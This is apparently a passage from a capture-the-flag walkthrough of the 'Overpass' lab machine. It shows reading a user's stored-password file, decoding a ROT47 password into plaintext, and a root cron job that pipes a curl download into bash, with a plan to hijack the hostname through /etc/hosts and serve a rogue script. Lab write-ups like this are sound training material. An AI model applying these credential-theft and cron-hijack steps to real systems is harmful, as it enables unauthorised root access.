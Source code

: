 ```shell
james:x:1001:1001:,,,:/home/james:/bin/bash
```

## Get james password

After reading through the password manager's source code we find that passwords are stored in `~/.overpass`. We is in /home/james.

```shell
james@overpass-prod:~$ strings .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

## Decrypt password

We also found that the password manager uses ROT47 encryption.
Ran the ciphertext through ROT47 decrypter. 

```shell
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

This is `james`'s password. Because we now have his password, we can see what commands we can run as `sudo`.

## Exploit build script

The todo.txt file mentions a buildscript that's not working.
Apparently it runs on a timer?
Sounds like it could be a `crontab` thing.

We found the following line in `/etc/crontab`.
It downloads and runs a script as `root`.

```shell
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

`overpass.thm` can be exploited via the `/etc/hosts` file.

```shell
james@overpass-prod:/etc$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:/etc$
```

We just need to start a HTTP server that hosts a rogue script. 
Then, it will pipe into bash.
